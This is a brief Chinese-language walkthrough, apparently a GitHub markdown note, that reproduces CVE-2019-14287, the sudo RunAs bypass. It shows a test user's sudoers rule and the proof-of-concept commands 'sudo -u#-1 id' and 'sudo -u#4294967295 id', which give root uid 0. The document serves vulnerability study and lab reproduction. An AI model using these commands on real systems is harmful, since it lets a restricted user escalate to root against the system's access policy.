


CVE-2019-14287 sudo 权限绕过
----

咱不说原理，就说复现步骤，原理请自行google，或移步：
http://vulsee.com/archives/vulsee_2019/1015_9074.html

默认情况下，在大多数Linux发行版中如图所示，/etc /sudoers文件中RunAs规范中的ALL关键字允许admin或sudo组中的所有用户以系统上的任何有效用户身份运行任何命令。

#### 利用前提

用户具有 sudo 权限

####  复现过程

- 新建一个测试用户 axin
```
1. useradd axin 创建一个用户
2. passwd axin 给创建的用户设置密码
```


- 配置/etc/sudoers文件（对于这个配置文件不太了解的，可以多看看漏洞原理）
在sudoers文件中添加一行
`axin ALL=(ALL:!root) ALL`



- 然后切换到测试用户axin,执行我们的poc
```
sudo -u#-1 id 或者 sudo -u#4294967295 id
```


通过截图可以看到，原本我们的axin用户的uid是1000的，但是执行了我们的poc过后就变成了0,uid为0也正是root用户


至此，漏洞复现结束
